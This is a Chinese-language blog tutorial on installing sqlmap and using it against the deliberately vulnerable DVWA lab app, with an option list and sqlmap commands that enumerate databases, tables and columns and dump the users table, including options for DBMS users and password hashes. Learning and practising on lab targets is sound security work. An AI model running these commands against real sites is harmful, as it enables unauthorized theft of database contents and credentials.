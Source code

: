 ```yaml
---
author: 星火燎原@vxhly
title: 渗透工具用法（一）SQLmap 的用法
categories: [pentest]
tags: [Security, Liunx, Python, Pentest]
date: 2016-09-20 10:46:46
---
```


::: tip 前言
此系列笔记是网络渗透工具的使用方法, 本篇是介绍 SQL 注入工具 SQLmap 的使用方法。SQLmap 是一款用来检测与利用 SQL 注入漏洞的免费开源工具, 有一个非常棒的特性, 即对检测与利用的自动化处理（数据库指纹、访问底层文件系统、执行命令）
:::
<!-- more -->

## SQLmap 环境

::: tip 提示
由于 `kali Liunx` 已经集成了 SQLmap 的环境, 这里就直接介绍 `Windows` 下环境的构建。
:::

### 先安装 Python

正常情况下我们安装 `2.7.x` 就好了。

[Python 官网下载地址](//www.python.org/getit/)

接下来只需在环境变量 `path` 中添加 Python 的安装路径就好了。<br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-1.png)

### 再安装 SQLmap

[SQLmap 官网下载地址](//sqlmap.org/)

将 SQLmap 解压至 Python 目录下, 将 SQLmap 的程序目录重命名为 sqlmap。

#### 在桌面新建快捷方式

`For Example:` 

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-2.png)

<br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-3.png)

<br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-4.png)

## DVWA 环境

DVWA(Dam Vulnerable Web Application) 使用 `PHP+Mysql` 编写的一套用于常规 WEB 漏洞教学和检测的 WEB 脆弱性测试程序。包含 SQL 注入、XSS、盲注等常见的一些漏洞。

[DVWA GitHub 下载地址](//github.com/ethicalhack3r/DVWA)

在 `Windows` 下还需安装 `PHP` 环境, 这里推介两个 `PHP` 集成环境。

[upupw PHP 集成环境](//www.upupw.net/) 
[phpStudy PHP 集成环境](//www.phpstudy.net/)

接下来只需修改一下配置文件就好了。

## SQlmap 使用方法

`Windows` 下跟 `kali Liunx` 下使用方法不相同。

为方便演示, 我们创建两个虚拟机: 

* 受害者机器, `Windows 2003` 操作系统, 运行一个 WEB 服务器, 同时跑着一个包含漏洞的 WEB 应用（DVWA）。
* 攻击器机器, 使用 `kali Liunx` 或者其他版本的 `Windows` 包含 SQLmap 程序。

本次实验的目的: 使用 SQLmap 得到以下信息: 

* 枚举 MYSQL 用户名与密码。
* 枚举所有数据库。
* 枚举指定数据库的数据表。
* 枚举指定数据表中的所有用户名与密码。

### 查看帮助

`Windows: ` 查看 Python 帮助命令

``` bash
python sqlmap.py -h
```

`kali Liunx: ` 查看 Python 帮助命令

``` bash
sqlmap -h
```

::: warning 注意
需要注意的是 `Windows` 下的选项和 `kali Liunx` 下的选项是一致的, 但是命令是不一致的。在 `Windows` 下使用 `python sqlmap.py` , 而在 `kali Liunx` 下使用的是 `sqlmap` 。
:::

### 选项解释

* **--cookie** => 设置我们的 cookie 值 "将 DVWA 安全等级设置为 low"
* **--data** => 设置 POST 提交的值, 如果是 GET 提交, 不需要此选项
* **-u** => 指定目标 URL
* **-b** => 获取 DBMS banner
* **--current-db** => 获取当前数据库
* **--current-user** => 获取当前数据库的用户
* **--tables** => 获取数据库里所有的表名
* **--columns** => 获取表里的所有字段
* **--dump** => 获取值
* **--current-user** => 获取当前用户
* **-D** => 爆库指定数据库名
* **-T** => 爆库指定表名
* **-C** => 爆库指定字段名
* **--string** => 当查询可用时用来匹配页面中的字符串
* **--users** => 枚举 DBMS 用户
* **--password** => 枚举 DBMS 用户密码 hash
* **--dbs** => 枚举 DBMS 中的数据库

## 开始爆库

由于 `Windows` 和 `kali Liunx` 的做法基本一致, 这里以 `kali Liunx` 为例。DVWA 的难度为 low。

### 先获取 Cookie

每一次的 Cookie 都不一样, 这里是个示范。

`For Example:` <br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-5.png)

### 获取数据库, --current-db

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" --current-db
```

URL 地址和 Cookie 请用真实的替换掉。这条命令可以把当前所有的数据库获取出来的。注意 `--current-db` 的 `-` 可是有两个的。

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-6.png)

### 获取表, --tables

前面, 我们已经获取到数据库名, 这时候我们要指定数据库名。使用 `-D` 选项指定数据库名。注意 `--tables` 的 `-` 可是有两个的。

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' --tables
```

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-7.png)

### 获取字段, --columns

::: tip 提示
前面, 我们已经获取到数据库名和表名了, 这时候我们要指定数据库名和表名。使用 `-D` 选项指定数据库名, 使用 `-T` 指定表名。这里我们选择表 `users` 。注意 `--columns` 的 `-` 可是有两个的。
:::

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' -T 'users' --columns
```

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-8.png)

### 获取数据, --dump

::: tip 提示
前面, 我们已经获取到数据库名、表名还有字段名了, 这时候我们要指定数据库名、表名还有字段名。使用 `-D` 选项指定数据库名, 使用 `-T` 指定表名, 使用 `-C` 指定字段名。这里我们选择表 `users` 中的字段 `user_id` 。注意 `--dump` 的 `-` 可是有两个的。
:::

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' -T 'users' -C 'user_id' --dump
```

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-9.png)

